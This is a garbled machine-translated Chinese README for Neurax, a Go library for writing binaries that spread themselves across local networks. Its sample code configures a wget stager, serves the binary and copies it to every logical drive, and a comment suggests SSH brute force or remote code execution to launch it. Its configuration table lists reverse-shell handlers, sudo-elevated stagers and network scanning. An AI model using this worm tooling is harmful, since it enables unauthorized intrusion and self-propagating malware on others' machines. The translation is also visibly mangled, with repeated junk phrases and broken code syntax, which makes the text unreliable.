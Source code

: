 **用途**

借助 Neurax，Golang 二进制文件可以在本地网络上传播，而无需使用任何外部服务器。

多样化的配置选项和命令阶段允许在各种无线环境中快速传播。

**示例代码**

**包主
导入。" github . com/red code-labs/Neurax "
func main(){
//指定要使用的服务端口和 Stager
N . Port = 5555
N . Stager = " wget "
//启动一个在后台公开当前二进制文件的服务器
go Neurax server()
//将当前二进制文件复制到所有逻辑驱动器
Neurax disks()
//创建一个应该在目标机器上启动的命令 Stager
//它将下载你可以使用 SSH bruteforce，一些 rce 或者任何你想要的东西；> */
}**

**配置条目列表**

| 名字 | 描述 | 缺省值 |
| --- | --- | --- |
| 名词（noun 的缩写）老练的人 | 要使用的命令登台程序的名称 | `**random, platform-compatible**` |
| 名词（noun 的缩写）StagerSudo | 如果为真，则使用提升的权限执行 Linux cmd 登台程序 | `**false**` |
| n .学员度量 | 重新执行命令 stager 的次数 | `**0**` |
| 名词（noun 的缩写）港口 | 服务端口 | `**6741**` |
| 名词（noun 的缩写）平台 | 目标平台 | `**detected automatically**` |
| 名词（noun 的缩写）小路 | 主机上保存二进制文件的路径 | `**random**` |
| 名词（noun 的缩写）文件名 | 下载的二进制文件应该使用并保存的名称 | `**random**` |
| 名词（noun 的缩写）Base64 | 用 base64 编码传输的二进制文件 | `**false**` |
| N.通信端口 | 二进制文件用来相互通信的端口 | `**7777**` |
| 名词（noun 的缩写）CommProto | 节点间的通信协议 | `**"udp"**` |
| 名词（noun 的缩写）反向拉伸器 | 包含 **`"<host>:<port>"`** 的远程反向外壳处理程序 | `**not specified**` |
| 名词（noun 的缩写）反转正片 | 用于反向连接的协议 | `**"udp"**` |
| 名词（noun 的缩写）ScanRequiredPort | NeuraxScan()仅在打开特定端口时将主机视为活动主机 | `**none**` |
| 名词（noun 的缩写）被动扫描 | NeuraxScan()使用被动 ARP 流量监控来检测主机 | `**false**` |
| 名词（noun 的缩写）ScanPassiveTimeout | NeuraxScan()监视 ARP 层的秒数 | `**50 seconds**` |
| N.扫描被动分析 | 被动扫描时使用的界面 | `**default**` |
| N.ScanActiveTimeout | NeuraxScan()将该值设置为每个线程中被扫描端口的超时值 | `**2 seconds**` |
| n .扫描被动 | NeuraxScan()捕获所有找到的设备上的数据包 | `**false**` |
| 名词（noun 的缩写）ScanPassiveNoArp | 被动扫描没有设置严格的 ARP 捕获过滤器 | `**false**` |
| 名词（noun 的缩写）扫描优先 | 包含要首先扫描的 IP 地址的片 | `**[]string{}**` |
| N.ScanFirstOnly(仅扫描) | NeuraxScan()仅扫描在`**.ScanFirst**`内指定的主机 | `**false**` |
| 名词（noun 的缩写）ScanArpCache | NeuraxScan()首先扫描在本地 ARP 缓存中找到的主机。仅适用于主动扫描 | `**false**` |
| 名词（noun 的缩写）ScanCidr | NeuraxScan()扫描这个 CIDR | `**local IP + "\24"**` |